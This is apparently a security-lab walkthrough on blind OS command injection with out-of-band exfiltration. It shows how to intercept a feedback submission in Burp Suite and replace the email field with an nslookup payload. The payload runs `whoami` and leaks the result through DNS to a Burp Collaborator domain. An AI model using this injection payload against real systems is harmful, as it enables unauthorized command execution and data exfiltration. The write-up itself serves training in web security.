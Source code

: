 Intercept the request using `BurpSuite` and then `Modify` the request that submits feedback:

Open `Burp Collaborator Client` and copy the domain. I this case : `slhdq2dusq3iiuxpdc5jqkr970dr1g.burpcollaborator.net`

Modify the email address changing it to:
```
b||nslookup+`whoami`.slhdq2dusq3iiuxpdc5jqkr970dr1g.burpcollaborator.net||
```

Send it.

Now go to Burp Collaborator, and press 'Poll now'. Now you will see some DNS interactions that were initiated by the application as the result of your payload.

Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. 

To complete the lab, enter the name of the current user in the `Submit Solution` box on the home page.
